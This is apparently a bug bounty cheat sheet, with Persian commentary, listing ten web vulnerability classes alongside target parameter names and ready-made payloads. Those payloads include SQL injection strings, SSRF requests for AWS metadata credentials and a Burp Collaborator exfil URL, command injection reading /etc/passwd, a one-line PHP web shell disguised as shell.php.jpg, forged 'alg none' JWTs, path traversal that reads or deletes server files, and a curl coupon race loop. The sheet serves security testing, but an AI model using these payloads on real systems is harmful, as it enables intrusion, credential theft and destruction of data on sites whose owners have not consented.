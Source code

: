🚀 P1 Bug Bounty Cheat Sheet (2025)
1. 🔑 IDOR (Insecure Direct Object Reference)

پارامترهای حساس:

```
user_id, account_id, profile_id, order_id, invoice_id, doc_id, uid
```

Payload تست:
```
GET /api/user/profile?user_id=12345   # کاربر A
GET /api/user/profile?user_id=12346   # دسترسی غیرمجاز به کاربر B
```
2. 🔒 Broken Access Control (BAC - فنی)

پارامترهای حساس:
```
role, isAdmin, permission, access_level, group
```

Payload تست:
```
POST /api/updateRole
{"user":"12345","role":"admin"}   # ارتقاء نقش غیرمجاز
```
3. 💉 SQL Injection (Error Based)

پارامترهای حساس:
```
id, query, search, sort, filter, report_id
```

Payload تست:
```
?id=1'   -- Error Based
?id=1' ORDER BY 5-- 
?id=1' UNION SELECT null,null,version()-- 
```
4. 🌐 SSRF (Server-Side Request Forgery)

پارامترهای حساس:
```
url, link, target, callback, feed, redirect, endpoint, webhook
```

Payload تست:
```
url=http://127.0.0.1:22        # تست پورت داخلی
url=http://169.254.169.254/latest/meta-data/iam/security-credentials/  # AWS metadata
url=http://burpcollaborator.net/abc   # DNS exfil
```
5. 🛑 Authentication Bypass (فنی)

پارامترهای حساس:
```
auth, token, session_id, jwt, sso, bearer
```

Payload تست:
```
Authorization: Bearer null
Authorization: Bearer '' 
Cookie: session_id=123 OR 1=1
jwt={"alg":"none","kid":"1","payload":{"role":"admin"}}
```
6. 💣 RCE (Remote Code Execution)

پارامترهای حساس:
```
cmd, exec, shell, process, run
```

Payload تست:
```
cmd=ls -la; id
exec=whoami && cat /etc/passwd
```
7. 🐚 Shell Upload (نوعی RCE)

پارامترهای حساس:
```
file, upload, avatar, media, image
```

Payload تست (PHP Shell):
```
<?php system($_GET['cmd']); ?>
```

آپلود با نام: shell.php.jpg

دسترسی: http://site.com/uploads/shell.php?cmd=id

8. 📤 Unrestricted File Upload

پارامترهای حساس:
```
upload, file, attachment, document
```

Payload تست:
```
آپلود .htaccess برای اجرای PHP

آپلود فایل evil.svg با JavaScript درون SVG
```
9. ⚡ Race Condition

پارامترهای حساس:
```
coupon, promo, balance, transfer, withdraw
```

Payload تست:
```
# استفاده همزمان از یک کوپن تخفیف
for i in {1..50}; do curl -X POST https://target.com/redeem?coupon=FREE100 & done
```
10. 📂 Path Traversal / Arbitrary File Deletion

پارامترهای حساس:
```
file, path, dir, delete, remove, download
```

Payload تست:
```
download=../../../../etc/passwd
delete=../../../../var/www/html/config.php
```
✅ Quick Notes

ابزار پیشنهادی برای پیدا کردن این پارامترها: Burp ParamMiner, Arjun, NarrowX

اول روی Token / IDOR / File / Redirect / SSRF تمرکز کن (بیشترین P1 Report ها در ۲۰۲۵)

برای اثبات، همیشه PoC کوتاه + اسکرین‌شات + هدر/ریسپانس بذار
